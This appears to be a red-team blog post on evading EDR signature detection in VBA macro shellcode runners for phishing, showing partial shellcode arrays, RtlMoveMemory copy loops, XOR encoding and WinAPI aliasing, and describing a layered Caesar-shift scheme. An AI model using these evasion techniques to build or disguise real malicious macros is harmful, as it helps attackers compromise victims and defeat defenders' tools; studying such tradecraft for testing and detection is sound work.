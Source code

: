 ```yaml
---
title: "Evading Signature-based Detection in VBA Macros"
excerpt: "Techniques to evade WinAPI signatures and bypass EDR detection in VBA macros."
categories:
    - EDR-Evasion
tags:
    - EDR-Evasion
toc: true
show_date: true
classes: wide
---
```


# Introduction

Phishing with macro attachments remains a popular technique for establishing command and control (C2) channels on victim machines. However, modern Endpoint Detection and Response (EDR) solutions have become adept at detecting common VBA macro templates. While revisiting my knowledge from the OSEP course, I found that the templates taught in the course are now flagged by modern EDRs. 

In this blog, I will document some techniques I use to evade signature-based detection in VBA macros, particularly focusing on shellcode runners.

---

# Figuring Out the Common Issues

To understand the challenges, I used the VBA template from [OffensiveVBA](https://github.com/S3cur3Th1sSh1t/OffensiveVBA/blob/main/src/Shellcode_CreateThread.vba) as an example. During testing, I identified two primary issues that lead to detection by EDRs.

### 1. **Raw Shellcode**

Embedding raw shellcode directly in the script is a red flag for EDRs. For example, a simple array containing shellcode bytes will likely trigger detection:

```vbs
Kqrfipip = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, ..., 46, 101, 120, 101, 0)
```

### 2. **WinAPI Usage**

A typical shellcode execution workflow involves the following WinAPI functions:
1. **VirtualAlloc**: Allocates memory with specific protection.
2. **RtlMoveMemory / WriteProcessMemory**: Copies or writes data to the allocated memory.
3. **CreateThread**: Creates a thread to execute the shellcode.

This pattern is a well-known indicator of compromise (IOC). EDRs often scan for these APIs in VBA macros. For instance, the following declaration and usage of `RtlMoveMemory` can be flagged:

```vbs
Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal Krldhufs As LongPtr, ByRef Gsvspq As Any, ByVal Djjdc As Long) As LongPtr
...
For Rxsqoxe = LBound(Kqrfipip) To UBound(Kqrfipip)
    Tpjln = Kqrfipip(Rxsqoxe)
    Gczn = RtlMoveMemory(Clsghvido + Rxsqoxe, Tpjln, 1)
Next Rxsqoxe
```

---

# Useful Techniques for Evasion

To bypass these detections, I applied the following techniques:

## 1. **Multiple Encoding**

Encoding the shellcode is a common technique to prevent EDRs from identifying malicious payloads. In the OSEP course, XOR encoding was introduced as a simple yet effective method. Here's an example of XOR encoding in VBA:

```vbs
buf = Array(232, 130, 0, 0, 0, 96, ..., 255, 213)

For i = LBound(buf) To UBound(buf)
    buf(i) = buf(i) Xor 23
Next i
```

However, during testing, I found that even XOR-encoded shellcode was detected by modern EDRs. To address this, I applied an additional layer of encoding on top of the XOR-encoded shellcode. I chose **Caesar Cipher**, which shifts each byte by a fixed number of positions. The encryption and decryption formulas are as follows:

```
Encryption: C = P + K
Decryption: P = C - K
*K = Addition key
*C = Ciphertext
*P = Plaintext
```

By combining XOR and Caesar Cipher, I was able to evade detection on a testing EDR. While I won't share the exact implementation, I recommend experimenting with other encoding techniques, such as **rot13** or **base64**, to further obfuscate the shellcode.

---

## 2. **WinAPI Declaration with Alias**

Another effective technique is to rename WinAPI functions using the `Alias` keyword in the declaration. This helps avoid detection based on known API names.

For example, instead of directly declaring `RtlMoveMemory`, you can alias it as `CopyMemory`:

```vbs
Private Declare PtrSafe Sub CopyMemory Lib "KERNEL32" Alias "RtlMoveMemory"
...
For Rxsqoxe = LBound(Kqrfipip) To UBound(Kqrfipip)
    Tpjln = Kqrfipip(Rxsqoxe)
    Indjas = Clsghvido + Rxsqoxe
    Gczn = CopyMemory(Indjas, Tpjln, 1)
Next Rxsqoxe
```

This simple change can help bypass signature-based detection that looks for specific API names.

---

# Conclusion

Evading signature-based detection in VBA macros requires a combination of techniques, including encoding the shellcode and obfuscating WinAPI declarations. While the examples in this blog focus on XOR encoding, Caesar Cipher, and API aliasing, there are many other methods you can explore to achieve the same goal.
